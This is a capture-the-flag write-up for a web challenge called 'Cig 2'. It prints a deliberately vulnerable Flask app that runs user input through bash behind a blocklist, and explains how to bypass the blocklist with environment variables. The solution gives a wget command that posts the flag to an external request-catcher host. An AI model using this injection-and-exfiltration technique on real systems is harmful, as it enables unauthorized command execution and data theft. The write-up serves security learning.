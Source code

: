 # Cig 2
### Web - Medium

- This one is a bit harder! they have blocked all built-in linux commands `/blocked`so we can't use these in `/backdoor` but!
- ![47f95716848315b0c7f91be5f1024e18.png](47f95716848315b0c7f91be5f1024e18.png)

<details>
<summary>Reveal Code</summary>
```python

from flask import Flask, render_template, request, redirect
import subprocess
import os
from string import printable

app = Flask(\_\_name\_\_)

blocked = open("blocked.txt", "r").read().split("\\n")


@app.route("/blocked", methods=\["GET"\])
def getBlocked():
    return render\_template("hello.html", source\_code="\\n".join(blocked))


@app.route("/setenv", methods=\["GET"\])
def setenv():
    var = request.args.get("var")
    value = request.args.get("value")
    if var is None or var is None:
        return redirect("/")

    os.environ\[var\] = value
    # Harmless logging technique
    os.system("env > /tmp/env.txt")
    return redirect("/")


@app.route("/backdoor", methods=\["GET"\])
def cmd():
    cmd = request.args.get("cmd")
    if cmd is None:
        return redirect("/")

    for b in blocked:
        if b in cmd:
            os.system(f'echo "{b}" > /tmp/found')
            return redirect("/")
    os.system(f'echo "{cmd}" > /tmp/log.txt')
    output = os.system(f'bash -c "{cmd}"')
    return redirect("/")


@app.route("/")
def show\_source\_code():
    with open(\_\_file\_\_, "r") as f:
        source_code = f.read()
    return render\_template("hello.html", source\_code=source_code)


if \_\_name\_\_ == "\_\_main\_\_":
    port = int(os.environ.get("PORT", 5001))
    app.run(debug=False, host="0.0.0.0", port=port)

```

</details>

- ![24b0ea9bbab2dbf0ade2386350ca0df8.png](24b0ea9bbab2dbf0ade2386350ca0df8.png)
- Here is the trick! using **env vars** we can assign env vars to texts/commands we like so we can bypass this 
- Now we will use `/setenv` but we can also assign 1 var to our full command!
- Step 1: `/setenv?var=v1&value=wget --post-data=$(echo $FLAG) ayham.requestcatcher.com`
- Step 2: `/backdoor?cmd=${v1}`
- EZ!
- ![7548e6c2026e5af4ddedd9dcbdf33867.png](7548e6c2026e5af4ddedd9dcbdf33867.png)
- However it took me a while bec I actually splitted my cmd into multiple env vars and failed at some and forgot some logic but here is the simplest solution!
- VOILA!!!